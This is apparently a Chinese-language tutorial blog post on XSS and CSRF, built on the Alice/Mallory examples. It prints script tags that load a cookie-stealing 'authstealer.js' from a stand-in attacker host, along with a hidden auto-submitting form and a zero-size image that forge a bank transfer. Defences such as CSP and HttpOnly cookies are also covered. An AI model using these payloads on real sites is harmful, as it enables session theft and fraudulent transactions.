 ```yaml
---
layout: post
title: xss and csrf
---
```


## xss

wiki里讲了两个xss攻击的例子. 非持续性xss(Non-persistent)，也称为Reflected xss.(来自陌生人的) 与 持续性(Persistent)攻击。

### Non-persistent

Alice 经常去一个Blob的网站，且Blob的网站允许Alice使用username/password登录和存储一些敏感信息，
当用户登录的时候Blob会将认证凭据存到Cookie中以供client到server端验证身份。

Mallory发现Bob的网站存在reflected xss 漏洞, 过程如下:

* 当在搜索页面，Mallory输入一些词汇并点击提交按钮, 如果找不到结果blob的页面会提示这个词汇 Not found, 此时的页面URL为`http://blobwebsite.com?q=her input term`

* 对于一个正常的搜索，例如搜索`pupples`, 如果该搜索页面未找到的话会提示`pupples not found`, 此时的url为`http://blobwebsite.com?q=pupples`

* 然而，当Mallory提交一个正常的搜索请求，例如`<script type='text/javascript'>alert('xss');</script>`, 出现了下面几个现象: 1. 一个弹窗出现，弹出"xss", 2.伴随着弹窗的同时页面显示`<script type='text/javascript'>alert('xss');</script> not found` 3. 此时的url为`http:blobwebsite.com?q=<script%20type='text/javascript'>alert('xss');</script>`


在发现了存在xss漏洞之后，Mallory手写了一个url: `http:blobwebsite.com?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`, 看起来像一个正常的url，但是decode其中的hex字符之后，真实的url如下:`http:blobwebsite.com?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>`。

接着Mallory将该地址通过email的形式发送给一些使用blobwebsite的成员，并且还告诉他们一些诱导性信息，例如:  [点击查看可爱的小狗狗](https://www.google.com/search?q=cute+puppy&tbm=isch&tbo=u&source=univ&sa=X&ved=0ahUKEwjB587hru_TAhUV3GMKHXgJAO4QsAQIIg&biw=1263&bih=703)

当该email被喜欢小狗的alice打开的时候，即使Alice比较有心的查看了url之后恐怕也不会过度起疑。但是当Alice随手点开这条链接之后会看到`pupples not found`以及伴随着的Mallory脚本的执行。(此时便触发了xss攻击行为)。 这时候Mallory的脚本几乎可做任何事情, 包括将Alice的登录凭证Cookie发送给Mallory的服务器。 拿到登录凭证之后Mallory便可以伪装成Alice登录到blobwebsite，并且查看其敏感信息。更加过分一些还可以更改掉Alice的密码，让Alice无法登陆。


xss攻击的预防可以用下面几种方法

* 通过合适的编码进行检查搜索输入中含有的HTML敏感数据，例如`script`,`object`,`embed`,`link`,`iframe`
* web server可以重定向无效的请求。 例如当Alice的请求含有xss的链接后，server端进行检查之后直接重定向到安全页面
* web server可以检测同时登陆行为，并且可以将登陆凭据设置为过期.
* web server检测到同时登陆来自不同ip后将client的session设置为过期
* 网站可以只显示部分信用卡号码(意味敏感信息数据即使登陆后也不能直接查看完整信息，需要二次验证)
* 网站可以在用户更改注册信息时，例如密码，需要再次输入密码。
* 网站可以使用[Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy)(内容安全策略) 来指定允许加载的脚本。
* 告诉用户不要随意点击不可信链接
* 设置Cookie为`HttpOnly` 来阻止JavaScript访问Cookie


### Persistent attack

接着上面的例子，Non-persistent需要Mallory发email给注册了Blob网站的用户，受影响的仅限于邮件内用户。这时候Mallory换了一种思路，使用持续性xss来影响更大范围内的用户。

首先Mallory注册了一个Blob网站的账号。

Mallory发现Blob的网站存在一个xss漏洞: 如果你在一个帖子下面留言，那么评论里将显示你输入的任何内容. 如果输入中含有html标签，评论区也会显示相应的标签和运行其中的脚本。

接着Mallory在一个帖子下面发了一条留言`I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">`

当其他人(不只是作者)加载该页面时Mallory的脚本都会被执行，并且偷取他们的Cookie发送到Mallory的服务器。

之后Mallory就可以使用这些登录凭据来做任何事情了。


### 结语

其实xss的种类有很多种，其中原理几乎全部是想尽办法将恶意脚本注入页面内，并且执行攻击者的脚本。
上面的xss防范方法对于很多情况下都适用。


## csrf

CSRF意思为跨站请求伪造，也就是让客户自己不知情的情况下发起一个恶意请求，网站服务器接收到请求后以为是用户自己发出的执行一些非常规性操作。 CSRF并不能偷取用户数据，但能以用户的身份发起恶意请求。

攻击流程大致如下:

假设Alice向Blob转账一笔钱的请求为`GET`请求，url为`GET http://bank.com/transfer.do?acct=BLOB&amount=100 HTTP/1.1
`

Mallory发现了back.com网站存在CSRF漏洞(没有开启同源策略)，于是构造了一条向自己转账的链接`http://bank.com/transfer.do?acct=Mallory&amount=100000`

接着Mallory可以给Alice发一封HTML邮件，例如一个可点击的链接`<a href="http://bank.com/transfer.do?acct=Mallory&amount=100000">View my Pictures!</a>` 但可能还不够好，因为该请求不会自动执行，于是Mallory决定使用一张0*0大小的图片来代替
`<img src="http://bank.com/transfer.do?acct=Mallory&amount=100000" width="0" height="0" border="0">`
这样当Alice打开这封邮件时便会自动发起这条GET请求，达到攻击的目的。

如果转账的请求为`POST`, 例如

~~~
POST http://bank.com/transfer.do HTTP/1.1

acct=BLOB&amount=100
~~~

此时便可以构造一个特殊的邮件内容下

~~~
<body onload="document.forms[0].submit()">
<form action="http://bank.com/transfer.do" method="POST">
<input type="hidden" name="acct" value="Mallory"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
~~~

这样当Alice打开邮件后便会发起这条POST请求，并达到攻击的目的。

类似的其他HTTP方法，`PUT` 和 `DELETE` 原理类似，可以手动通过`XMLHttpRequest`的方式来发起请求。 不过CSRF目前基本上可用之处已经很少见了，只要web server不允许无限制跨域便可以阻止 CSRF 型攻击方式。

所以，当心你的 `Access-Control-Allow-Origin: *`
